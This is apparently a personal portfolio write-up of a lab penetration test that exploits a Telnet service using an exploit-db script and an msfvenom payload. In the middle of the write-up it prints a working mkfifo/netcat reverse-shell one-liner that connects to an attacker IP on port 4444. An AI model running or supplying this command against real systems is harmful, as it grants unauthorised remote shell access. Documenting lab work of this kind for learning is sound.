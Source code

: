 Penetration Testing Project 2

Project Title: Exploting Telnet with RAW payload.
Objective: Assess the security posture of a network to identify and address potential vulnerabilities.

Scope: The assessment covered internal network infrastructure, TCP/IP and access controls. This involved testing Telnet vulnerabilities and potential attack vectors that could be exploited by an attacker.

Tools and Techniques:

Nmap: Used for network discovery and identifying open ports and services.
Metasploit(msfvenom): Utilized for exploiting discovered vulnerabilities and validating their impact.

On the internet you can find how to exploit telnet connection easly, but all source showing the same method again and again.

There is an other way to exploit telnet connection, as You can see on exploit-db, there is a script to exploit it, so I copied it to Nano editor, and saved it as a python file.

![Screenshot 2023-11-27 224057](https://github.com/messor89/Portfolio/assets/52599741/da9991c7-aed5-4e54-b084-33b8fa963731)
![Screenshot 2023-11-27 224138](https://github.com/messor89/Portfolio/assets/52599741/43cf5913-0c04-490e-be07-69469acba31f)

After run the python file againts the target machine, the script exploited the telnet connection, and we have access. However it seems, commands are not working.

So I set up a tcpdump listener, and sent a ping request to the attacker machine to see sytem commands are working.

![Screenshot 2023-11-27 223954](https://github.com/messor89/Portfolio/assets/52599741/fb9df158-7fbb-4102-9f49-7a0607776ef5)

As we can see, I recieved the ping request.

![Screenshot 2023-11-27 224030](https://github.com/messor89/Portfolio/assets/52599741/3e56fe53-9cf1-4bd5-af39-0c2240c296f4)


So after this, in msfvenom I generated a payload in RAW format, so I will be able to execute on the target machine. 

mkfifo /tmp/essdef; nc 192.168.30.135 4444 0</tmp/essdef | /bin/sh >/tmp/essdef 2>&1; rm /tmp/essdef

![Screenshot 2023-11-27 224313](https://github.com/messor89/Portfolio/assets/52599741/af8cd16d-615f-47cd-999b-c775403fff3d)

I executed the msfvenom payload on the target machine and started a netcat listener on  the attacker machine, so hopefully we will have a reverse shell.

![Screenshot 2023-11-27 224506](https://github.com/messor89/Portfolio/assets/52599741/27d3a26f-a8ef-455a-b61f-e4b55e0e0b6a)

And the result is........


![Screenshot 2023-11-27 224528](https://github.com/messor89/Portfolio/assets/52599741/b10b5f53-e808-4a47-aa00-34cd02f8a6b1)

Key Findings:

Critical Vulnerabilities: Discovered several critical vulnerabilities, including open ports.

Recommendations: Close the ports what are not in use, and make sure they are secure.













We did it, and now we have full access to the target machine, and all commands are working. This was the "more" difficult way as probably everybodu would suggest to just go with metasploitable framework and execute a payload.
